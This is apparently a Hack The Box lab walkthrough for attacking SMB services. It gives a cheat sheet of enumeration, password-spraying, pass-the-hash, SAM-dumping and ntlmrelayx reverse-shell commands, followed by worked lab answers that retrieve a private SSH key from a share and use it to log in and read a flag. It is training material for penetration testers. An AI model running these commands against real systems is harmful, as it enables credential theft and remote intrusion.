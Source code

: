 ## [Attacking SMB](https://referral.hackthebox.com/mzyGKZb)


| Command | Description |
|---------|-------------|
| `smbclient -N -L //$TARGET_IP` | Null-session testing against the SMB service. |
| `smbmap -H $TARGET_IP` | Network share enumeration using smbmap. |
| `smbmap -H $TARGET_IP -r notes` | Recursive network share enumeration using smbmap. |
| `smbmap -H $TARGET_IP --download "notes\note.txt"` | Download a specific file from the shared folder. |
| `smbmap -H $TARGET_IP --upload test.txt "notes\test.txt"` | Upload a specific file to the shared folder. |
| `rpcclient -U'%' $TARGET_IP` | Null-session with the rpcclient. |
| `./enum4linux-ng.py $TARGET_IP -A -C` | Automated enumeration of the SMB service using enum4linux-ng. |
| `crackmapexec smb $TARGET_IP -u /tmp/userlist.txt -p 'Company01!'` | Password spraying against different users from a list. |
| `impacket-psexec administrator:'Password123!'@$TARGET_IP` | Connect to the SMB service using the impacket-psexec. |
| `crackmapexec smb $TARGET_IP -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` | Execute a command over the SMB service using crackmapexec. |
| `crackmapexec smb $TARGET_IP/24 -u administrator -p 'Password123!' --loggedon-users` | Enumerating Logged-on users. |
| `crackmapexec smb $TARGET_IP -u administrator -p 'Password123!' --sam` | Extract hashes from the SAM database. |
| `crackmapexec smb $TARGET_IP -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE` | Use the Pass-The-Hash technique to authenticate on the target host. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t $TARGET_IP` | Dump the SAM database using impacket-ntlmrelayx. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t $TARGET_IP -c 'powershell -e <base64 reverse shell>'` | Execute a PowerShell-based reverse shell using impacket-ntlmrelayx. |



## Questions:

### What is the name of the shared folder with READ permissions?

```
smbmap -H $TARGET_IP
[+] IP: TARGET_IP:445	Name: TARGET                                     
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	GGJ                                               	READ ONLY	Priv
	IPC$                                              	NO ACCESS	IPC Service (attcsvc-linux Samba)

```

### What is the password for the username "jason"?
* First, load pwd.list from resources.
```
crackmapexec smb $TARGET_IP -u jason -p pwd.list --local-auth
```

### Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

``` 
smbclient  //$TARGET_IP/GGJ -U 'jason%$PASSWORD' -

smb: \> ls
  .                                   D        0  Tue Apr 19 16:33:55 2022
  ..                                  D        0  Mon Apr 18 12:08:30 2022
  id_rsa                              N     3381  Tue Apr 19 16:33:04 2022

		14384136 blocks of size 1024. 10088352 blocks available
smb: \> get id_rsa
getting file \id_rsa of size 3381 as id_rsa (89.2 KiloBytes/sec) (average 89.2 KiloBytes/sec)
smb: \> !cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEA1RKythwhDQVnsZpGDDeIWh/z0a4y5mQoIIBXOeHJM8rLNzB/fdMD
XvN+6R6s0wh/fpava2en2s/G6m8OGjjY8DbgO0A40HwzKyVEKk15tJ9QlcaqS0O77UrjW/
...
<SNIP>
....
```
```
 [★]$ ls
cacert.der  Documents  id_rsa  Pictures  pwd.list   Videos
Desktop     Downloads  Music   Public    Templates

```
```
chmod 600 id_rsa
ssh -i id_rsa jason@$TARGET_IP
cat flag.txt
HTB{SMB_*******_*********9}
```
# [Subscribe for getting more HTB Cubes!](https://referral.hackthebox.com/mzyGKZb)

